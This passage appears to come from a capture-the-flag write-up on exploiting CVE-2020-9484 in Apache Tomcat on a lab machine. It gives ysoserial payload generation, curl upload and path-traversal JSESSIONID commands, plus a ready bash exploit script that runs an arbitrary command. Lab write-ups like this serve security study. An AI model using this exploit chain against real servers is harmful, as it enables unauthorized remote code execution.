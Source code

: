 ## Exploiting CVE-2020-9484

In order to exploit CVE-2020-9484, we simply have to do following steps:

1. Create a deserialization payload using [ysoserial](https://github.com/frohoff/ysoserial)
2. Upload the deserialization payload
3. Use the CVE to access the deserialization payload and trigger code-execution

Let us go through each step in detail:

1.Creation of deserialization payload

The deserialization payload can be created by [ysoserial](https://github.com/frohoff/ysoserial) with the CommonsCollections2 as the selected payload. Then we simply supply any command to be executed and write that to a file (in our case payload.session).

```bash
root@darkness:~# java -jar /opt/ysoserial.jar CommonsCollections2 `cmd` > payload.session
```

2.Upload the deserialization payloads

The payload can be quickly uploaded using curl with the `-F` option as shown below.

```bash
root@darkness:~# curl 'http://10.10.10.205:8080/upload.jsp' -F 'image=@payload.session'
```

3.Use the vulnerability to trigger RCE

In order to trigger the RCE, we simply have to do another upload-request, however, this time we additionally add the JSESSIONID cookie that points to the location of our uploaded payload.

```bash
root@darkness:~# curl 'http://10.10.10.205:8080/upload.jsp' -H 'Cookie: JSESSIONID=../../../../../opt/samples/uploads/payload' -F 'image=@payload.session'
```

### Bash exploit-script

As the exploit-process can be done in only a few commands, a bash-script comes handy to exploit the vulnerability.

```bash
#!/bin/bash
payload=$(echo -n "$1" | base64) # base64-encode payload
cmd="bash -c {echo,$payload}|{base64,-d}|bash"
java -jar /opt/ysoserial.jar CommonsCollections2 "$cmd" > payload.session 2>/dev/null
curl -s 'http://10.10.10.205:8080/upload.jsp' -F 'image=@payload.session' >/dev/null
curl -s 'http://10.10.10.205:8080/upload.jsp' -H 'Cookie: JSESSIONID=../../../../../opt/samples/uploads/payload' -F 'image=@payload.session' >/dev/null
```

### Python exploit-script

Because automation with python is fun, I also created a [python-script](https://github.com/chr0x6eos/HTB/blob/master/Feline/exploit.py) to automatically exploit the vulnerability. For this we create a couple of functions that do the same three steps we did earlier.
